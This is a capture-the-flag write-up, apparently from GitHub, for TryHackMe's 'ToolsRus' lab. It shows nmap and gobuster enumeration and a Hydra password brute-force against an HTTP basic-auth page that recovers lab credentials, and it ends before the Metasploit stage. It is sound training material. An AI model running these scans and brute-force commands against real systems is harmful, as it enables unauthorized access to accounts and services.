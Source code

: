 # ToolsRUS

This is my write-up for the room [ToolsRus] (https://tryhackme.com/room/toolsrus)

Your challenge is to use the tools listed below to enumerate a server, gathering information along the way that will eventually lead to you taking over the machine.

This task requires you to use the following tools:

Dirbuster
Hydra
Nmap
Nikto
Metasploit
## Difficulty
My Difficulty: Easy

Try Hackme Difficulty: Easy

<p align="center">
<img src="https://upload.wikimedia.org/wikipedia/commons/thumb/a/a7/Toys_%22R%22_Us_logo.svg/1280px-Toys_%22R%22_Us_logo.svg.png" style="width:25%;">
</p>

## Reconnaissance

Host = `10.10.244.140`

## Enumeration / Scanning

Let's start with an initial Nmap scan.

### Service / Port Enumeration
## NMAP

```console
nmap -sC -sV 10.10.123.159
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-18 11:20 PDT
Nmap scan report for 10.10.123.159
Host is up (0.15s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7b:61:82:61:88:8e:99:80:2e:23:a5:d2:55:c0:60:e6 (RSA)
|   256 5d:56:ff:7f:3c:1e:7f:90:0b:b2:90:56:d0:f9:fa:e5 (ECDSA)
|_  256 a8:6b:b8:2b:f2:fa:0d:58:ff:8a:50:01:79:21:ca:75 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION requestnmap -sC -sV 10.10.123.159
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-18 11:20 PDT
Nmap scan report for 10.10.123.159
Host is up (0.15s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7b:61:82:61:88:8e:99:80:2e:23:a5:d2:55:c0:60:e6 (RSA)
|   256 5d:56:ff:7f:3c:1e:7f:90:0b:b2:90:56:d0:f9:fa:e5 (ECDSA)
|_  256 a8:6b:b8:2b:f2:fa:0d:58:ff:8a:50:01:79:21:ca:75 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.72 seconds

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.72 seconds
```
Next lets run a dir buster (wasn't getting results, so I had to reset the box with its new IP being 10.10.244.140, again had to reset it. Not sure what the issue is, but it seems that if I attempt to do multiple things on the box i.e. attempt to access web interface while scanning it crashes. Hopfullying final IP: 10.10.110.225)

## Gobuster
```console
gobuster dir -u http://10.10.160.183 -w /home/noob2uub/Documents/Wordlists/2.3-small.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.160.183
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/noob2uub/Documents/Wordlists/2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/18 12:30:39 Starting gobuster in directory enumeration mode
===============================================================
/guidelines           (Status: 301) [Size: 319] [--> http://10.10.160.183/guidelines/]
/protected            (Status: 401) [Size: 460]    
```
Going to the main address we can see there is nothing here 
![Screenshot_2022-03-18_11-52-30](https://user-images.githubusercontent.com/68706090/159074679-a3d6a87b-89a7-472d-8dbd-a72e182eabbb.png)

So lets check nout /guidlines now
Navigating to http://10.10.135.157/guidelines/ shows us this. We have a user name and confirming TomCat server thats runing on port 1234
![Screenshot_2022-03-18_11-41-18](https://user-images.githubusercontent.com/68706090/159074671-80528e5b-cec9-4466-957c-1398ad966695.png)

Now lets take a look at /protected
![Screenshot_2022-03-18_12-53-34](https://user-images.githubusercontent.com/68706090/159074851-fab2db32-1b12-4909-aba8-cf3692b97280.png)

looking at this we can see that we can use hydra using http-get 

### Hydra
```console
hydra -l bob -P /home/noob2uub/Documents/Wordlists/rockyou.txt -f 10.10.160.183 http-get /protected/
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-18 12:51:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.160.183:80/protected/
[80][http-get] host: 10.10.160.183   login: bob   password: bubbles
[STATUS] attack finished for 10.10.160.183 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-18 12:51:34
```



